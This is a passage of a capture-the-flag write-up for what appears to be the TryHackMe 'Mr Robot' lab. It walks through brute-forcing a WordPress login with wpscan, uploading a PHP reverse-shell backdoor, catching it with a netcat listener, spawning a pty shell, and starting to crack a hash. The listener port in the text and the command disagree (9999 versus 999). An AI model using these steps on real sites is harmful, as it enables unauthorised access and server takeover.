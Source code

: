 Now, we know that the website has as a CMS WORDPRESS ( wp-login.php). The next steep is to browse our result ;)

![image](https://miro.medium.com/max/1400/1*kDeieV5-GrdiuXK-AnUNmQ.jpeg)
At this point, we would like to know more information about this CMS. So, I fired up wpscan with the file I found in the robots.txt.

I guess the user name “ elliot”. It’s not technic I know…. so BTW :
```
wpscan --url http://192.168.0.18 --passwords /location/of/wordlist/fsocitysortunique.dic --usernames elliot
```
![image](https://miro.medium.com/max/1400/1*MY7m1ONcCA4hu-cCBZB8Jw.png)
 Name | Password 
 -----| --------|
 | elliot | ER28–0652 |

So, we have the credentials to enter into the web site. Let’s see what happens

![image](https://miro.medium.com/max/1400/1*bEsJ3FbznpiHcWyREY15Vw.jpeg)
***Weakness***

Now we have to find a way to root the server. I found a way. It’s to upload a backdoor then connect to it and have a shell !!
To do this :-**let’s implement some php reverse shell.**
copy the php file from [**Here**](https://github.com/sourabhk267/tryhackme/blob/master/Mr-robot/php-reverse-shell.php) and save it in a .php extension file.
![image](https://imgur.com/iHDOA5E.png)
But before we need to zip the shell.php to upload it.
```
root@kali:~/tryhackme/mr_robot$ zip shell.zip shell.php

adding: shell.php (deflated 59%)
```
![image](https://imgur.com/8R8hdRA.png)
Great we successfully upload our php shell ! Let’s active it
![image](https://imgur.com/TJWP8eN.png)
Now open terminal and start the netcat listner at port 9999
```
nc -lnvp 999
```
Nice ! :D we have a shell let’s make it fancy now
Use this command to make it a stable shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://imgur.com/kMjgqa7.png)
![image](https://imgur.com/MN5tFup.png)
As you can see we can’t see the key2 but we have an hash so let’s crack it
save the hash in a .txt file and use **hashcat** to crack the hash.
